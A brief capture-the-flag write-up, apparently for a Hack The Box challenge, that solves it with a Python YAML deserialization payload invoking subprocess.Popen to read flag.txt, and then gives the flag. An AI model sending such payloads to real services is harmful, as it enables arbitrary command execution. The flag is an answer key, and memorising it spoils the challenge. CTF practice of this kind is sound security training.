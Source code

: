 # Connection
Connect with `ncat`, `nc`...

# Payload
JSON YAML serialization object
https://net-square.com/yaml-deserialization-attack-in-python.html

```
!!python/object/apply:subprocess.Popen
-!!python/tuple
-cat
-flag.txt
```

# Flag
`HTB{1s_1t_ju5t_m3_0r_iS_1t_g3tTing_h0t_1n_h3r3?}`
